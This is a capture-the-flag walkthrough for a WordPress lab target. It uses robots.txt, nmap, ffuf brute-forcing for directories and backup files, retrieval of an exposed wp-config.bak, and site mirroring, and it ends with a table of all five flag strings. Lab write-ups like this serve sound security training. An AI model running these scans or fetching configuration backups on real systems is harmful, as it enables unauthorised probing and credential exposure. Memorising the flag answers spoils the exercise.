

## Tasks



----------------------------
## Flag 1

> _This tells search engines what to and what not to avoid._

```
curl http://target.ine.local/robots.txt
```

```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php

FLAG1{c9d016357e394e1bb608d8e683fc18bb}
```

The `robots.txt` file is publicly accessible and contains the flag in plaintext alongside the standard WordPress crawler directives.

---
## Flag 2

> _What website is running on the target, and what is its version?_

```
nmap -sC -sV target.ine.local
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: INE
|_http-generator: WordPress 6.5.3 - FL@G2{6af60254b54b43b289032b1c7fe0d5ef}
| http-robots.txt: 1 disallowed entry
|_/wp-admin/
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

The `http-generator` header generated from Nmap's HTTP scripts leaks the flag embedded in the WordPress version string.

---
## Flag 3

> _Directory browsing might reveal where files are stored._

```
ffuf -w /usr/share/wordlists/dirb/big.txt:FUZZ \
     -u http://target.ine.local/FUZZ \
     -recursion -recursion-depth 1
```

Relevant results:

```
wp-admin    [Status: 301]
wp-content  [Status: 301]
wp-includes [Status: 301]
  └── uploads [Status: 301]
```

The `wp-content/uploads` directory is browsable. Fetching `flag.txt` from it:

```
curl http://target.ine.local/wp-content/uploads/flag.txt
```

```
FLAG3{2dc4f2eebc424f79a544c4359367fb56}
```

---
## Flag 4

> _An overlooked backup file in the webroot can be problematic if it reveals sensitive configuration details._

Running `ffuf` with common backup and config extensions:

```
ffuf -w /usr/share/wordlists/dirb/big.txt:FUZZ \
     -u http://target.ine.local/FUZZ \
     -e .bak,.cnf,.conf
```

Key hit:

```
wp-config.bak  [Status: 200, Size: 3438]
```

```
curl http://target.ine.local/wp-config.bak
```

The backup exposes database credentials and, embedded in a comment, the flag:

```php
/** FLAG4{f3c4ef6713c3451c9748c9c204523c80} */
```

---
## Flag 5

> _Certain files might reveal something interesting when mirrored._

```
httrack http://target.ine.local
```

```
Mirror launched on Fri, 29 May 2026 02:56:33
Mirroring http://target.ine.local...
Done.
```

After mirroring, search for the flag across all downloaded files:

```
cd target.ine.local
grep -r "FLAG"
```

```
xmlrpc0db0.php: <api name="FLAG5{60ad419cf43e48549f0a73abdf78cb30}"
                     blogID="1"
                     preferred="false"
                     apiLink="http://target.ine.local/xmlrpc.php" />
```

The flag is embedded in the `xmlrpc.php` discovery metadata, only visible after mirroring the full site locally.

---
## Summary

| #   | Technique                        | Flag                                      |
| --- | -------------------------------- | ----------------------------------------- |
| 1   | `robots.txt` enumeration         | `FLAG1{c9d016357e394e1bb608d8e683fc18bb}` |
| 2   | Nmap service/version fingerprint | `FLAG2{6af60254b54b43b289032b1c7fe0d5ef}` |
| 3   | Directory traversal + file read  | `FLAG3{2dc4f2eebc424f79a544c4359367fb56}` |
| 4   | Backup file discovery (`.bak`)   | `FLAG4{f3c4ef6713c3451c9748c9c204523c80}` |
| 5   | Site mirroring + grep            | `FLAG5{60ad419cf43e48549f0a73abdf78cb30}` |
